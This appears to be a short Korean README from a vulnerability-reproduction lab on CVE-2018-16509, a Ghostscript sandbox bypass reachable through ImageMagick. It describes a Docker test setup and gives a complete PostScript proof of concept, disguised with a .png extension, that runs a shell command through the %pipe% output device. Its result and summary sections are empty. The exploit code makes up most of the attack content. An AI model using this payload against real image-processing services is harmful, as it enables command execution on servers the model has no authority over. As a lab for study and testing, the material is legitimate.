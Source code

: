 <h1>CVE-2018-16509</h1>

**Contributors**

[정기현](https://github.com/jkh011120)

<br>

<h3>요약</h3>

CVE-2018-16509는 Postscript 및 PDF를 처리하는 Ghostscirpt를 우회하여 사용자가 의도치 않은 행위를 하게 함.
즉. 파일 확장자로 우회하여 공격 시도가 가능함.


<h3>환경 구성 및 실행</h3>

`docker compose up -d` 커맨드를 입력해 테스트 환경 실행 (GhostScript 9.23 및 ImageMagick 7.0.8버전을 사용합니다)



<h3>poc.ps -> poc.png </h3>
Postscript로 코드를 만든 후 확장자 명을 png로 만듦.

```
%!PS
userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%id > /tmp/success && cat /tmp/success) currentdevice putdeviceprops
```

<h3>결과</h3>

<br>
<h3>정리</h3>

